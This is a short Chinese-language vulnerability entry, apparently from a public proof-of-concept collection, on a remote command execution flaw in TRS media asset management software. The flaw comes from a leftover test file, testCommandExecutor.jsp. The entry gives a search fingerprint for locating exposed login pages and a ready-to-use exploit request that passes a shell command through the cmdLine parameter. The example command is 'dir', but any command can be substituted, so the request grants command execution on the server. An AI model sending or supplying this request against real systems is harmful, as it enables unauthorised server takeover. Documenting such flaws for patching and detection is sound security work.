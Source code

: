 # 拓尔思 TRS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 TRS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
拓尔思-TRS
```

## 网络测绘

```
"TRS媒资管理系统登录页面"
```

## 漏洞复现

主页面

![image-20230314084307993](images/image-20230314084307993.png)

验证POC

```
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![image-20230314084331676](images/image-20230314084331676.png)